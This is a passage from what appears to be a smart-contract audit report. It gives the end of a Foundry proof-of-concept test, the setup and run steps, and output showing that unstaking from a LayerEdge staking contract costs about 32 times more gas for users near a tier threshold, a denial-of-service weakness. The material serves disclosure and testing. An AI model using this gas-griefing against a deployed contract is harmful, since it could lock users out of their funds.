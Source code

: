 ```solidity
        }

        vm.resumeGasMetering();

        vm.txGasPrice(1);

        vm.startPrank(victim);

        uint256 gasStart = gasleft();
        staking.unstake(MIN_STAKE);
        uint256 gasEnd = gasleft();

        uint256 gasUsedForNearThreshold = (gasStart - gasEnd) * tx.gasprice;
        vm.stopPrank();

        console2.log("gas used for user near from threshold tier is %d", gasUsedForNearThreshold);

        vm.startPrank(address(0x1));

        gasStart = gasleft();
        staking.unstake(MIN_STAKE);
        gasEnd = gasleft();

        uint256 gasUsedForNotNearThreshold = (gasStart - gasEnd) * tx.gasprice;
        vm.stopPrank();

        console2.log("gas used for user far from threshold tier is %d", gasUsedForNotNearThreshold);

        console2.log("gas used for user near threshold tier is %d times higher than gas used for user far from threshold tier", gasUsedForNearThreshold/gasUsedForNotNearThreshold);
    }
```

add these two line in foundry.toml before run the test

```toml
[dev]
gas_limit = "18446744073709551615"
```

and then run `forge test --mt test_DOSVulnerability -vvv`

Here is the result
```bash
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for test/stake/LayerEdgeStakingTest.t.sol:LayerEdgeStakingTest
[PASS] test_DOSVulnerability() (gas: 11570334)
Logs:
  gas used for user near from threshold tier is 11258106
  gas used for user far from threshold tier is 347411
  gas used for user near threshold tier is 32 times higher than gas used for user far from threshold tier

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.82s (7.80s CPU time)

Ran 1 test suite in 7.88s (7.82s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
